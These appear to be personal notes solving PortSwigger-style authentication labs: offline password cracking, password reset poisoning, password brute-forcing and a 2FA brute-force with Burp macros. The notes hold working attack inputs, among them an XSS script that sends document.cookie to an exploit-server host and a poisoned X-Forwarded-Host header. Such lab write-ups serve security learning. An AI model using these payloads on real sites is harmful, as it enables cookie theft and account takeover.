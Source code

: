 **Offline password cracking**
1. comment on any post, then go to access log
```html
<script>document.location='https://exploit-0a59001703b631ea807f2f9c014b0021.exploit-server.net/exploit'+document.cookie</script>
```
2. try to cracking, found out the pattern is same as the previous lab BASE64.ENCODE(USERNAME:MD5(PASSWORD))
3. carlos:onceuponatime
   
---
**Password reset poisoning via middleware**

    login to carlos
    email client
1. add X-Forwarded-Host: exploit.../exploit and username of victim
2. go to access log, take a token to use at GET /forgot-password?TOKEN=$token

---
**Password brute-force via password change**

    change password in my-account page
1. notify the behaviour of the function; they are 3 kinds of responses
2. `username=carlos&current-password=§cpass§&new-password-1=1234&new-password-2=abcd` grep New passwords do not match
---

**Broken brute-force protection, multiple credentials per request** !EX

    login as carlos
    /resources/js/login.js
    login with json
1. POST /login notice it was JSON
2. in the body put all possible passwords it could be {"username":"carlos","password":["123456","abcdef","asd",...]}
---

**2FA bypass using a brute-force attack** !EX
    
    login as carlos
    2FA verification code
1. Sessions -> Session handling rules(Add) -> Scope -> URL Scope (Include all URLS) -> Details (Add: Run a macro) 
2. Under Select macro click Add to open the Macro Recorder. Select the following 3 requests: GET /login POST /login GET /login2
3. Click Test macro and check that the final response contains the page asking you to provide the 4-digit security code. This confirms that the macro is working correctly. 
4. send POST /login2 to Burp Intruder - concurrent = 1
5. trick!: POST /login2 the mfa-code should be just ine number (e.g. 0993) send the request continously until find status 302; because every sessions generate a new code. We hope just lucky to match the number we've entered

----
----
